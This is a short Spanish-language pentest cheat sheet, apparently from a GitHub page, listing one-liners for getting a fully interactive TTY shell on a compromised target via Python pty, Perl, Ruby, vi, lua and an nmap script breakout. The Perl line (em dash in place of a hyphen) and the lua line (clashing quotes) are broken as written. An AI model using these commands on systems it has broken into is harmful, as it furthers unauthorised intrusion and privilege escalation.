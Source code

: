 # TTY SHELLS
A veces cuando conseguimos acceder a un sistema no tenemos acceso a una shell completamente interactiva, es por eso que, dependiendo del software que tenga instalado nuestro objetivo, podemos conseguirla de diferentes maneras.

## Usando Python
python -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'

## Usando os.system
echo os.system('/bin/bash')  

## Usando Perl
perl —e 'exec "/bin/sh";'  

## Usando Ruby
ruby -e 'exec "/bin/bash"'  

## Usando Vi
Podemos iniciar una shell desde vi, para ello, iniciamos vi y escribimos:   
:!bash

## Usando lua
lua -e 'os.execute('/bin/bash')'

## Usando nmap
Si tiene instalado nmap, para versiones anteriores a la 5.2, dispone de una shell interactiva directamente  
!sh  
Si es una versión posterior, podemos hacer lo siguiente  
TF=$(mktemp)  
echo 'os.execute("/bin/sh")' > $TF  
nmap --script=$TF  


